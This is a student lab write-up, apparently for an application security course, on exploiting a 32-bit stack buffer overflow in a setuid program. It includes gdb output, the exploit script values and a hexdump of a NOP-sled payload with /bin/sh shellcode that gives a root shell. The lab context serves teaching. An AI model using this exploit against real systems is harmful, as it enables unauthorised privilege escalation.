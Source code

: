 # 32 bit attack
In screenshot1.png , for first task date is not show as it would expose personal access token please forgive
we succesfully show a local repo is created 
In screenshot2 we show Reports/Artifacts succesfully created for submission. 
In screenshots2.1-2.2 we show commands executed to turn off countermeasures

# After typing make on shellcode directory as shown in screenshot3.4 we see the following commands execute 
```
gcc -m32 -z execstack -o a32.out call_shellcode.c
gcc -z execstack -o a64.out call_shellcode.c
```
We run ./a32.out and ./a64.out nothing appears on the terminal, we type exit to return to a functional shell. as shown in screenshot3.4.1 and 3.4.2

After understanding the vulnerable program we execute make command as shown in screenshot4 and we are ready to investigate

The following is the output from our gdb commands:
```
Breakpoint 1 at 0x12ad: file stack.c, line 16.
gdb-peda$ run
Starting program: /home/nyuappsec/AppSec1/Part1/code/stack-L1-dbg 
Input size: 0
[----------------------------------registers-----------------------------------]
EAX: 0xffffcb48 --> 0x0 
EBX: 0x56558fb8 --> 0x3ec0 
ECX: 0x60 ('`')
EDX: 0xffffcf30 --> 0xf7fb4000 --> 0x1ead6c 
ESI: 0xf7fb4000 --> 0x1ead6c 
EDI: 0xf7fb4000 --> 0x1ead6c 
EBP: 0xffffcf38 --> 0xffffd168 --> 0x0 
ESP: 0xffffcb2c --> 0x565563ee (<dummy_function+62>:	add    esp,0x10)
EIP: 0x565562ad (<bof>:	endbr32)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x565562a4 <frame_dummy+4>:	jmp    0x56556200 <register_tm_clones>
   0x565562a9 <__x86.get_pc_thunk.dx>:	mov    edx,DWORD PTR [esp]
   0x565562ac <__x86.get_pc_thunk.dx+3>:	ret    
=> 0x565562ad <bof>:	endbr32 
   0x565562b1 <bof+4>:	push   ebp
   0x565562b2 <bof+5>:	mov    ebp,esp
   0x565562b4 <bof+7>:	push   ebx
   0x565562b5 <bof+8>:	sub    esp,0x74
[------------------------------------stack-------------------------------------]
0000| 0xffffcb2c --> 0x565563ee (<dummy_function+62>:	add    esp,0x10)
0004| 0xffffcb30 --> 0xffffcf53 --> 0x456 
0008| 0xffffcb34 --> 0x0 
0012| 0xffffcb38 --> 0x3e8 
0016| 0xffffcb3c --> 0x565563c3 (<dummy_function+19>:	add    eax,0x2bf5)
0020| 0xffffcb40 --> 0x0 
0024| 0xffffcb44 --> 0x0 
0028| 0xffffcb48 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, bof (str=0xffffcf53 "V\004") at stack.c:16
16	{
gdb-peda$ next
[----------------------------------registers-----------------------------------]
EAX: 0x56558fb8 --> 0x3ec0 
EBX: 0x56558fb8 --> 0x3ec0 
ECX: 0x60 ('`')
EDX: 0xffffcf30 --> 0xf7fb4000 --> 0x1ead6c 
ESI: 0xf7fb4000 --> 0x1ead6c 
EDI: 0xf7fb4000 --> 0x1ead6c 
EBP: 0xffffcb28 --> 0xffffcf38 --> 0xffffd168 --> 0x0 
ESP: 0xffffcab0 ("1pUVD\317\377\377\220\325\377\367\340\223\374", <incomplete sequence \367>)
EIP: 0x565562c2 (<bof+21>:	sub    esp,0x8)
EFLAGS: 0x216 (carry PARITY ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x565562b5 <bof+8>:	sub    esp,0x74
   0x565562b8 <bof+11>:	call   0x565563f7 <__x86.get_pc_thunk.ax>
   0x565562bd <bof+16>:	add    eax,0x2cfb
=> 0x565562c2 <bof+21>:	sub    esp,0x8
   0x565562c5 <bof+24>:	push   DWORD PTR [ebp+0x8]
   0x565562c8 <bof+27>:	lea    edx,[ebp-0x6c]
   0x565562cb <bof+30>:	push   edx
   0x565562cc <bof+31>:	mov    ebx,eax
[------------------------------------stack-------------------------------------]
0000| 0xffffcab0 ("1pUVD\317\377\377\220\325\377\367\340\223\374", <incomplete sequence \367>)
0004| 0xffffcab4 --> 0xffffcf44 --> 0x0 
0008| 0xffffcab8 --> 0xf7ffd590 --> 0xf7fd1000 --> 0x464c457f 
0012| 0xffffcabc --> 0xf7fc93e0 --> 0xf7ffd990 --> 0x56555000 --> 0x464c457f 
0016| 0xffffcac0 --> 0x0 
0020| 0xffffcac4 --> 0x0 
0024| 0xffffcac8 --> 0x0 
0028| 0xffffcacc --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
20	    strcpy(buffer, str);  
gdb-peda$ p $ebp
$1 = (void *) 0xffffcb28
gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffcabc
```

Since we want to overflow buffer we need to find the offset between buffer and the top of the stack ebp we do this by.
```
nyuappsec@ubuntu:~$ python3
Python 3.8.10 (default, Nov 26 2021, 20:14:08) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> hex(0xffffcb28-0xffffcabc)
'0x6c' or 108 bits apart in the stack. 
```
In the exploit-32.py file we edit the following values 

```
start = 517-len(shellcode)   # start from len(shellcode) from the end of array
ret = 0xffffcabc + 250       # return beyond ebp / NOP sled
offset = 108 + 4             #ebp-&buffer+4
```
This works because our vulnerable program has a buffer that takes up 108 bytes, we will then read the previous frames pointer and land in the return adress where
it would without the exploit run the existing code. We want to write more than the buffer of 108 bytes to run out malicious code without running code that is already in the stack. Filling it with NOPs allows us to do this. Adding 250 bytes to the buffer gives us plenty of room to land somewhere in the NOP sled to get the return adress we want to execute the malicious code. 
```
--contents of badfile--
00000000  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
*
00000070  b6 cb ff ff 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000080  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
*
000001e0  90 90 90 90 90 90 90 90  90 90 31 c0 50 68 2f 2f  |..........1.Ph//|
000001f0  73 68 68 2f 62 69 6e 89  e3 50 53 89 e1 31 d2 31  |shh/bin..PS..1.1|
00000200  c0 b0 0b cd 80                                    |.....|
00000205
#     
```
stack-L1 is a setuid program 
```
# ls -l stack-L1                                                               
-rwsr-xr-x 1 root nyuappsec 15908 Feb  8 13:44 stack-L1
```
so it will run what is in the buffer, because of the badfile created by the exploit; the program will run the shellcode with root permissions. 
